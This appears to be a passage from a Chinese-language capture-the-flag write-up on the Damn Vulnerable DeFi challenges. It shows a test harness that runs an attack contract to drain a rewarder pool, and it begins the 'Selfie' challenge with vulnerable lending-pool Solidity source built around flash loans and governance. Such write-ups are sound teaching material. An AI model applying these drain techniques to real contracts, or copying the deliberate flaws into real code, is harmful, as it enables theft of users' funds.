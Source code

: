 ```
it('Exploit', async function () `{`
    await time.increase(time.duration.days(5));
    const attack = await AttackReward.new(this.liquidityToken.address, this.rewardToken.address, this.flashLoanPool.address, this.rewarderPool.address, `{` from: attacker`}`);
    await attack.attack(TOKENS_IN_LENDER_POOL, `{` from: attacker `}`);
`}`);
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t019800192e6eb3e6a5.png)



## Selfie

> A new cool lending pool has launched! It’s now offering flash loans of DVT tokens.
Wow, and it even includes a really fancy governance mechanism to control it.
What could go wrong, right ?
You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: steal them all.

同样的清空贷款池挑战，直接阅读源代码：

```
contract SelfiePool is ReentrancyGuard `{`

    using Address for address payable;

    ERC20Snapshot public token;
    SimpleGovernance public governance;

    event FundsDrained(address indexed receiver, uint256 amount);

    modifier onlyGovernance() `{`
        require(msg.sender == address(governance), "Only governance can execute this action");
        _;
    `}`

    constructor(address tokenAddress, address governanceAddress) public `{`
        token = ERC20Snapshot(tokenAddress);
        governance = SimpleGovernance(governanceAddress);
    `}`

    function flashLoan(uint256 borrowAmount) external nonReentrant `{`
        uint256 balanceBefore = token.balanceOf(address(this));
        require(balanceBefore &gt;= borrowAmount, "Not enough tokens in pool");

        token.transfer(msg.sender, borrowAmount);        

        require(msg.sender.isContract(), "Sender must be a deployed contract");
        (bool success,) = msg.sender.call(
            abi.encodeWithSignature(
                "receiveTokens(address,uint256)",
                address(token),
                borrowAmount
            )
        );
        require(success, "External call failed");

        uint256 balanceAfter = token.balanceOf(address(this));

        require(balanceAfter &gt;= balanceBefore, "Flash loan hasn't been paid back");
    `}`

```